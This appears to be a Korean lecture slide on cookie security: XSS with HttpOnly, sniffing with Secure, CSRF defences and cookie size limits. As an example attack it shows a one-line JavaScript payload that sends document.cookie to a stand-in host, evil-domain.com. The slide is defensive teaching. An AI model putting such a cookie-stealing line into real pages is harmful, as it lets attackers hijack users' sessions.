

# 쿠키 문제점과 예방
사이트 간 스크립팅(XSS) 공격
JavaScript의 document.cookie API가 접근할 수 없도록 HttpOnly를 설정
new Image().src =
  "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
스니핑
중간에 공격자에 의해 쿠키 정보가 쉽게 읽히지 않도록 HTTPS인 경우에만 쿠키를 전송하도록 Secure를 설정
사이트 간 요청 위조(CSRF) 공격
로그인한 상태(유효한 쿠키가 발급된 상태)로 특정 행동을 하는 페이지로 요청 시 공격자의 의도대로 특정 행동이 수행됨*을
방지 위해 요청 페이지 정보 확인(리퍼러 확인), CSRF 토큰 발행 및 검증, 쿠키의 SameSite를 Lax 또는 Strict로 설정 등 필요
* 2008.02. 옥션에서 1863만 명의 개인정보가 유출된 사고는 이미지 태그(GET 메서드)를 통한 관리자 비밀번호 변경으로 발생함
개수와 용량의 제한
도메인당 20개, 한 개의 쿠키당 4KiB로 제한돼 저장할 수 있는 양에 한계가 있음
웹 스토리지는 브라우저 종료 시 또는 만료 기한이 없음(사이트에서 별도 처리 필요)